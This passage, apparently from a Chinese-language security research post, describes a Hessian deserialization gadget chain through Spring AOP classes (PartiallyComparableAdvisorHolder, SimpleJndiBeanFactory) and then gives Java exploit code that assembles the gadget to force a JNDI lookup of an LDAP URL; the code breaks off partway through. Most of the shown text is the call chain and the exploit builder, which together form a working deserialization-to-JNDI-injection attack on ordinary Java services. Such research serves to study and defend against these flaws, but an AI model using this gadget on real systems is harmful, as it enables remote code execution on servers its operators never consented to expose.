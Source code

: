 在`AbstractPointcutAdvisor#equals`方法中，存在可以触发`getAdvice()`的点，并且`otherAdvice`可控，至于`equals`可通过`HashCode#puVal`触发，整条链就串起来了。

[![](assets/1706145875-82b2e29962a0f8c7d2290b703ed813dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122222635-3f211bb2-b932-1.png)

## PartiallyComparableAdvisorHolder

```bash
Hessian#readObject()->
    hashMap.putVal()->
        hotSwappableTargetSource#equals()->
            Xstring#equals()->
                PartiallyComparableAdvisorHolder#toString()->
                    AspectJPointcutAdvisor#getOrder()->
                        AbstractAspectJAdvice#getOrder()->
                            BeanFactoryAspectInstanceFactory#getOrder()->
                                SimpleJndiBeanFactory#getType()->
                                    SimpleJndiBeanFactory#doGetType()->
                                        SimpleJndiBeanFactory#doGetSingleton()->
                                            SimpleJndiBeanFactory#lookup()->JndiTemplate#lookup()
```

exp:

```bash
public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException {
        String jndiUrl = "ldap://127.0.0.1:9999/siJdcpuR";
        SimpleJndiBeanFactory simpleJndiBeanFactory=new SimpleJndiBeanFactory();
        simpleJndiBeanFactory.setShareableResources(jndiUrl);

        AspectInstanceFactory beanFactoryAspectInstanceFactory=createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(beanFactoryAspectInstanceFactory,"beanFactory",simpleJndiBeanFactory);
        setFieldValue(beanFactoryAspectInstanceFactory,"name",jndiUrl);

        AbstractAspectJAdvice advice = createWithoutConstructor(AspectJAfterAdvice.class);

        Class<?> abstractAspectJAdvice= Class.forName("org.springframework.aop.aspectj.AbstractAspectJAdvice");
        Field aspectInstanceFactory=abstractAspectJAdvice.getDeclaredField("aspectInstanceFactory");
        aspectInstanceFactory.setAccessible(true);
        aspectInstanceFactory.set(advice,beanFactoryAspectInstanceFactory);

        AspectJPointcutAdvisor aspectJPointcutAdvisor=createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(aspectJPointcutAdvisor,"advice",advice);

        Class<?> PartiallyComparableAdvisorHolder=Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        Object Partially=createWithoutConstructor(PartiallyComparableAdvisorHolder);
        setFieldValue(Partially,"advisor",aspectJPointcutAdvisor);
```